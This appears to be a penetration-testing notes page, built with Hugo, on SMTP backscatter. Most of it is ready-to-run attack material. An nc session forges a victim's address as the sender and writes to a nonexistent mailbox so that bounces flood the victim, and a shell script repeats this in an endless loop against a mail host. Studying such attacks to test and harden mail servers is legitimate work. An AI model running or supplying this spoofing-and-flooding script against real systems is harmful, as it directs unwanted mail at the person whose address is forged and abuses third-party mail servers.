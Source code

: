 ```yaml
---
### The title for the content.
title : "backscatter"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "backscatter"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "backscatter."
### The datetime assigned to this page.
date : 2021-09-02T17:11:21+02:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "testvm"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
tags : ["General"]
---
```


## backscatter

### Examples

#### Single test

```bash
nc <mailhost> 25
EHLO domain.tld
MAIL FROM:victim@domain.tld
RCPT TO:notexistingmailbox@domain.tld
DATA
backscattering is fun
.
```

#### Automated test

Create a file with this content (backscatter.txt)

```txt
EHLO example.com
MAIL FROM:victim@example.com
RCPT TO:notexistingmailbox@target.com
DATA
backscattering is fun
.
```

```bash
#!/bin/sh
while true;
do
    cat backscatter.txt | while read L; do sleep "1"; echo "$L"; done | "nc" -w 3 -C -v "<mailhost>" "25";
done
```
